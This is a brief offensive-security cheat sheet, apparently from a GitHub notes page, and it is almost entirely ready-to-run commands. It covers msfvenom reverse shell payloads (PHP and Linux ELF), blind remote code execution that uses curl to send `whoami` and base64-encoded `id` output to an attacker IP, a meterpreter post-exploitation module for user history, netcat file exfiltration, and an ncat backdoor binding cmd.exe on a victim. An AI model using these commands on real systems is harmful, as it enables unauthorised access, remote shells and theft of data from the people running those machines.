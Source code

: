 #### Generate a reverse shell payload with msfvenom
```bash
msfvenom --list payloads | grep <keyword>
```
```bash
msfvenom -p php/reverse_php lhost=192.168.0.58 lport=443 -o reverse.php
```
```bash
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.168.0.58 lport=443 -f elf -o reverse443
chmod +x reverse443
```

Note: If you have generated a meterpreter payload shell, you have to use meterpreter in order to receive back the connection  


#### Blind Remote Code Execution
Target (Use the Attacker IP)
```bash
curl http://192.168.1.130:53/`whoami`
```
or 
```bash
curl http://192.168.1.130:53/`id | base64`
```
Attacker:
```bash
nc -lvp 53
```

Tip: You can also create a reverse shell with `msfvenom` and let the target download it  

#### Enumerating users history with meterpreter
- `background`
- `use post/linux/gather/enum_users_history`
- `set SESSION 1`
- `exploit`

#### Data exfiltration with Netcat
Receiver:
```bash
nc -lvnp 8888 > received.txt
```
Sender (the IP of the receiver):
```bash
cat message.txt | nc -v 192.168.1.1 8888
```

#### Backdoor using ncat
Victim:
```bash
ncat -l -p 5555 -e cmd.exe
```
Attacker (the IP of the victim):
```bash
ncat 192.168.1.66 5555
```
